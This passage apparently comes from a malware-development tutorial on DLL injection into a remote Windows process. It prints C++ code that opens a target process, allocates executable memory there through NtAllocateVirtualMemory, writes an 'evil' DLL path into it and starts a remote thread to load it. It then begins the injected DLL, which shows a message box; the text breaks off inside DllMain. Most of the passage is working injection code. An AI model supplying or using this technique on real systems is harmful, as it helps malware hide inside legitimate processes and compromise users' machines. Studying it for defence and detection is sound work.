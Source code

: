 ```cpp
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdll, "NtAllocateVirtualMemory");  

  // allocate memory buffer for remote process
  myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

The only difference is:       

```cpp

//...
#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

//...
//...
//...

pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdll, "NtAllocateVirtualMemory");  

// allocate memory buffer for remote process
myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

//...
```

As usually, for simplicity "evil" DLL is `meow-meow` messagebox:     

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
```